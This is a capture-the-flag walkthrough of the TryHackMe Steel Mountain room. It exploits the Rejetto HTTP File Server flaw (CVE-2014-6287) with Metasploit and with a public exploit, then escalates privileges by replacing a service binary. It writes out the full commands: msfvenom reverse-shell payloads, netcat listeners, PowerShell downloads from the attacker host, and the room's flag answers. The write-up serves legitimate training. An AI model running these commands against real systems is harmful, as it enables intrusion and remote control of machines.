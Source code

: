 # Steel Mountain

{% embed url="https://tryhackme.com/room/steelmountain" %}
https://tryhackme.com/room/steelmountain
{% endembed %}

## Task 1 Introduction

#### **Who is the employee of the month?**

![](<../../.gitbook/assets/Screenshot from 2022-04-22 04-12-31.png>)

{% hint style="success" %}
`Bill Harper`
{% endhint %}

## Task 2 Initial Access

#### **What is the other port running a web server on?**

```bash
nmap 10.10.185.36
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-44-30.png>)

{% hint style="success" %}
`8080`
{% endhint %}

#### **What file server is running?**

```bash
sudo nmap -sV -p8080 10.10.185.36
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-48-26.png>)

{% hint style="success" %}
`Rejetto HTTP File Server`
{% endhint %}

#### **What is the CVE number to exploit this file server?**

```
searchsploit rejetto http file server
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-56-53.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-56-57.png>)

{% hint style="success" %}
`2014-6287`
{% endhint %}

#### **What is the user flag?**

```bash
msfconsole -q
msf5 > search rejetto
msf5 > use 1
msf5 > set RHOSTS 10.10.185.36
msf5 > set RPORT 8080
msf5 > set LHOST 10.9.101.193
msf5 > exploit
meterpreter > shell
C:\Users\bill\AppData>type C:\Users\bill\Desktop\user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-22 04-23-25.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-07 10-08-57.png>)

{% hint style="success" %}
`b04763b6fcf51fcd7c13abc7db4fd365`
{% endhint %}

## Task 3 Privilege Escalation

```
meterpreter > upload /home/kali/enum/PowerUp.ps1
meterpreter > load powershell
meterpreter > powershell_shell
PS > . .\Powerup.ps1
PS > Invoke-AllChecks
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 10-24-02.png>)

#### Take close attention to the CanRestart option that is set to true. What is the service name?

```bash
Invoke-AllChecks | Where-Object {$_.'CanRestart' -eq 'True'}
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 10-29-15.png>)

{% hint style="success" %}
`AdvancedSystemCareService9`
{% endhint %}

#### The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

#### Use msfvenom to generate a reverse shell as an Windows executable. Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.101.193 LPORT=4445\
         -e x86/shikata_ga_nai -f exe -o ASCService.exe
nc -nvlp 4445
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 11-00-27.png>)

```
meterpreter > upload /home/kali/enum/ASCService.exe
meterpreter > shell
> sc stop AdvancedSystemCareService9
> copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\"
> sc start AdvancedSystemCareService9
```

#### **What is the root flag?**

```
> type C:\Users\Administrator\Desktop\root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 11-15-51.png>)

{% hint style="success" %}
`9af5f314f57607c00fd09803a587db80`
{% endhint %}

## Task 4 Access and Escalation Without Metasploit

#### To begin we shall be using the same CVE. However, this time let's use this [exploit.](https://www.exploit-db.com/exploits/39161)

#### To begin, you will need a netcat static binary on your web server.

```bash
cp /usr/share/windows-binaries/nc.exe /var/www/html 
```

```bash
nc -nvlp 4444
> type C:\Users\bill\Desktop\user.txt
```

#### You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!

```bash
searchsploit rejetto http file server
searchsploit -m 39161
vim 39161.py
# ip_addr = "10.9.101.193"
# local_port = "4444"
python3 39161.py 10.10.41.184 8080
python3 39161.py 10.10.41.184 8080
```

#### Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.

#### Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running.

```bash
> powershell -c wget http://10.6.9.176/winPEASx86.exe -OutFile winPEAS.exe
> winPEAS.exe
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 12-18-56.png>)

#### What powershell -c command could we run to manually find out the service name?

![](<../../.gitbook/assets/Screenshot from 2022-04-22 05-11-30.png>)

{% hint style="success" %}
`powershell -c "Get-Service"`
{% endhint %}

#### Now let's escalate to Administrator with our new found knowledge.

#### Generate your payload using msfvenom and pull it to the system using powershell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.101.193 LPORT=4445\
         -e x86/shikata_ga_nai -f exe -o ASCService.exe
nc -nvlp 4445
> type C:\Users\Administrator\Desktop\root.txt
```

#### Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.

```
> powershell -c "wget http://10.9.101.193/ASCService.exe -OutFile ASCService.exe"
> sc stop AdvancedSystemCareService9
> copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\"
> sc start AdvancedSystemCareService9
```

## :link: Support Material

{% embed url="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" %}

{% embed url="https://www.exploit-db.com/exploits/39161" %}

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS" %}
